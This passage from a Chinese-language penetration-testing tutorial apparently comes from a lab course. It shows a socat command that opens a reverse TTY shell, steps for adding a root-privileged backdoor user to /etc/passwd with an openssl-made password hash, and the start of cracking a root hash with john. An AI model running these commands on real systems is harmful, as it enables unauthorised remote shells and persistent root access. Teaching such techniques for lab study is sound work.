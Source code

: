 然后在「简单 shell」 中执行如下命令，反弹一个完整的 TTY-shell：

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:5912
```

这种方式反弹回的 shell 最为完整，但需要目标主机支持 `socat` 工具。

### 一. passwd文件提权

通常来说，通过 `/etc/passwd` 提权的方法有两种：

1. **如果具有 `/etc/passwd` 的 w (写入) 权限，可以直接添加一个 root 权限的用户**

   > **自己构造一行用户数据添加到 passwd 文件中，用户名和密码自定义，并且将 `UID` 设置为 `0`，此时我们登陆就可以获取 root 权限。**

**第一步-先设置用户名**：将用户名从 root 修改为其他任意用户名即可，例如 `syl-passwd：`

```bash
syl-passwd:x:0:0:root:/root:/bin/bash
```

**第二步-设置密码**：之前讲到过，第二个字段 x 表示该用户密码存放在 `/etc/shadow` 文件中，如果密码不用存在 `/etc/shadow` 中，可以直接将 `x` 替换为 `「密码」` 即可。

但需要注意的是，这里的`「密码」` 并不是指明文密码，而是经过 hash 算法加密之后的密文字符串，那如何计算 hash 字符串呢？我们可以使用 `openssl`套件。

使用 `openssl`创建一个密码为 pass123 的 linux hash，命令如下：

```bash
openssl passwd -1 -salt ignite pass123
```

参数解释：

- -1 ：使用 MD5 hash 算法
- -salt ：对 hash 算法加 "盐"

计算得到的 hash 为`$1$ignite$3eTbJm98O9Hz.k1NTdNxe1`，用它来替换 x，最终我们构造出的 passwd 用户数据如下：

```bash
syl-passwd:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```

接下来将它添加到 passwd 文件中：

```bash
echo 'syl-passwd:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

注意：

1. 必须使用单引号，不能使用双引号
2. 使用 `>>` ，而不是 `>`

2. **如果 `/etc/passwd` 中存储 root 用户密码哈希，可以使用 john 进行破解**

john 会调用指定字典对 hash 字符串进行破解，破解时间取决于字典大小和计算机性能。john 支持使用内置字典，也可以指定自定义字典，本课程中我们使用 john 自带字典完成破解。

先将之前获取到的 root 用户 hash 写入文件 hash.txt 中：

```bash
# 此处必须单引号
echo 'root:$1$ignite$J98A8EVPG1O40.WnwrPEM1:0:0:root:/root:/bin/bash' > ~/hash.txt
```
